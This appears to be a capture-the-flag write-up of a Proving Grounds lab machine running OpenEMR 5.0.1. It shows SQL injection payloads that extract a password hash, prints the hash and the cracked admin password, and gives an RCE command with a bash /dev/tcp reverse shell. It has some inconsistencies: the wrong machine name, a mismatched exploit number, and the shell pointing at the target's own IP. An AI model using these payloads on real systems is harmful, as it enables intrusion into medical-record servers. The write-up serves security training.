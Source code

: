 ```yaml
---
layout: single
title: Apex - Proving grounds Practice
date: 2023-06-21
classes: wide
header:
  teaser: /assets/images/linux.png
categories:
  - provinggrounds
  - infosec
tags:
  - provinggrounds
  - linux
  - intermediate
  - web
  - sqli
  - openemr
  - passwordcracking
---
```


## Linux

![](/assets/images/linux.png)

This blog post is a writeup of the Helpdesk machine from Proving grounds practice.

### Summary
------------------
- OpenEMR 5.0.1 it's vulnerable to a sql injection that allows us to get a password hash.
- Cracking this hash we can obtain the password and gain access to the web app.
- OpenEMR it's also vulnerable to RCE authenticated. Using the obtained password we are able to exploit it.
- Once inside the victim's machine we are able to reuse the same password to obtain root access.

### Detailed steps
------------------

### Enumeration

I started enumerating the open ports with:
```
nmap -Pn -p- 192.168.164.145
```
![nmap1](\assets\images\pg-practice-apex\1.JPG)

Knowing which ports are open, I executed an agressive nmap with:
```
nmap -A 192.168.164.145 -p 80,445,3306 -o nmapa.txt
```
![nmap2](\assets\images\pg-practice-apex\2.JPG)

As we can see in the last picture, there is a web server, a mysql server and a smb server.
By accessing the website I was able to see a sanitary webpage. By clicking on `Scheduler` I could access to a login page.

![webpage1](\assets\images\pg-practice-apex\5.JPG)

This login page shows that we are in front of a `OpenEMR`
![webpage2](\assets\images\pg-practice-apex\6.JPG)

In order to find out the OpenEMR version, I found a common OpenEMR directory named 'sql' which was present in this server.
This directory stores sql files which are generated in the updates. Knowing this, we can deduce OpenEMR version (`5.0.1` in this case).

![webpage3](\assets\images\pg-practice-apex\80.JPG)

Also this directory contains some more interesting files as database.sql. This file shows the structure of the OpenEMR database.

![webpage4](\assets\images\pg-practice-apex\89.JPG)

### Explotation

This OpenEMR version is vulnerable to some `sql injections` we can find in the following report:
https://www.open-emr.org/wiki/images/1/11/Openemr_insecurity.pdf

This image shows the vulnerable files:
![sqli](\assets\images\pg-practice-apex\81.JPG)

Trying to search for these files I was able to acces to "add_edit_event_user.php" so I worked with this file.
![sqli2](\assets\images\pg-practice-apex\83.JPG)

To make this job easier, I looked in the database.sql file mentioned above. I could find a table named 'user_secure' which contains usernames and passwords.
![sqli2](\assets\images\pg-practice-apex\91_2.JPG)

After some attemps, I found a valid query using "substring" which can extract half password hash:
![sqli3](\assets\images\pg-practice-apex\90.JPG)

Modifying this query I was able to get the other half (just replacing 1,32 by 32,60):
![sqli4](\assets\images\pg-practice-apex\92.JPG)

Querys:
```
eid=1 AND EXTRACTVALUE(0x3b,(SELECT Substring(password,1,32)FROM users_secure LIMIT 0,1)))
eid=1 AND EXTRACTVALUE(0x3b,(SELECT Substring(password,32,64)FROM users_secure LIMIT 0,1)))
```

Hash:
```
$2a$05$bJcIfCBjN5Fuh0K9qfoe0eRJqMdM49sWvuSGqv84VMMAkLgkK8XnC
```

I used this page to analyse the hash --> https://hashes.com/es/tools/hash_identifier
As we can see in the picture, we are in front of a `bcrypt $2*$, Blowfish (Unix)`
![hash1](\assets\images\pg-practice-apex\93.JPG)

Knowing the type of hash I cracked it with hashcat:
![hash2](\assets\images\pg-practice-apex\95.JPG)

Now, having this password I was able to log in successfully to the web portal as admin user:
![access](\assets\images\pg-practice-apex\96.JPG)

![access2](\assets\images\pg-practice-apex\97.JPG)


`OpenEMR 5.0.1` is also vulnerable to a remote code execution (authenticated). This means that at this point I could exploit it.

In order to gain access I downloaded a python exploit from: https://www.exploit-db.com/exploits/48515
Opening a netcat listener and executing this exploit with the following paramaters, I was able to catch the shell.
```
python2 45161.py http://192.168.164.145/openemr -u admin -p thedoctor -c "bash -c 'bash -i >& /dev/tcp/192.168.164.145/5555 0>&1'"
```
![shell](\assets\images\pg-practice-apex\101.JPG)

![shell2](\assets\images\pg-practice-apex\102.JPG)

Being www-data user I was able to find the user flag:
![flag1](\assets\images\pg-practice-apex\103.JPG)


### Privilege escalation

In order to elevate privileges I have been looking for a way for a while until I realised that I could use the previously obtained password again.
Just typing su root and using "thedoctor" as password I was able to log in as root and find the root flag.
![root](\assets\images\pg-practice-apex\227.JPG)

![flag2](\assets\images\pg-practice-apex\228.JPG)

